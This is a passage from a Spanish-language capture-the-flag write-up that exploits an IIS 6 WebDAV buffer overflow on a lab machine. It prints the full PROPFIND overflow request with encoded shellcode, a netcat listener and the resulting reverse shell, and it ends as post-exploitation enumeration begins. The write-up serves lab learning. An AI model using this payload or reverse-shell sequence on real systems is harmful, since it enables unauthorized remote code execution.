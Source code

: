 * Levantemos una **netcat**:
```bash
nc -nvlp 443                         
listening on [any] 443 ...
```

* Renombremos el Exploit para que sea **.py**:
```bash
mv iis6\ reverse\ shell IIS6_Exploit.py
ls
IIS6_Exploit.py  README.md
```

* Probemos el Exploit:
```bash
python2 IIS6_Exploit.py 10.10.10.14 80 Tu_IP 443
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃翾￿￿Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```

* Y estamos dentro:
```bash
nc -nvlp 443                         
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.14] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.
c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```
¿Qué? ¿Ya somos Root? Pues no, no te emociones, somo Root pero en el servicio de la red, lo cual no nos ayuda mucho. Vamos a ver que hay dentro de la máquina.


<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="Windows">Enumeración de Máquina</h2>

```batch
c:\windows\system32\inetsrv>cd C:\
cd C:\
C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FDCB-B9EF
 Directory of C:\
04/12/2017  05:27 PM    <DIR>          ADFS
04/12/2017  05:04 PM                 0 AUTOEXEC.BAT
04/12/2017  05:04 PM                 0 CONFIG.SYS
04/12/2017  05:32 PM    <DIR>          Documents and Settings
04/12/2017  05:17 PM    <DIR>          FPSE_search
04/12/2017  05:17 PM    <DIR>          Inetpub
12/24/2017  08:18 PM    <DIR>          Program Files
```